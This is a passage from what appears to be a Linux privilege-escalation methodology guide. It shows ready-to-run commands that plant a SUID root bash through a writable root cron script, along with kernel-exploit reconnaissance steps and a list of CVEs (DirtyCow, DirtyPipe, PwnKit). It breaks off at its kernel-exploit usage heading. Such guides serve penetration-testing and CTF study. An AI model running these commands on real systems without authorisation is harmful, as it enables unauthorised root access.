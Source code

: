 ### Exploit Writable Cron Script

```bash
# If root runs /opt/backup.sh and you can write to it:

# Check permissions
ls -la /opt/backup.sh

# If writable, add your payload
echo 'cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash' >> /opt/backup.sh

# Wait for cron to run (check /etc/crontab for timing)

# Execute SUID bash
/tmp/rootbash -p
# Now root!
```
---

## Priority 7: Kernel Exploits

### LAST RESORT ONLY

**Why last resort:**
- Can crash the system
- Often unreliable
- Noisy in logs
- May cause kernel panic

**When to use:**
- No other privesc path found

### Check Kernel Version

```bash
uname -a
uname -r
cat /etc/issue
cat /etc/os-release
```

### Search for Kernel Exploits

```bash
searchsploit linux kernel $(uname -r | cut -d'-' -f1)

# Common kernel exploits:
# DirtyCow (CVE-2016-5195) - Kernel 2.6.22 - 4.8.3
# DirtyPipe (CVE-2022-0847) - Kernel 5.8 - 5.16.11  
# PwnKit (CVE-2021-4034) - Any with pkexec
```

### Using Kernel Exploits
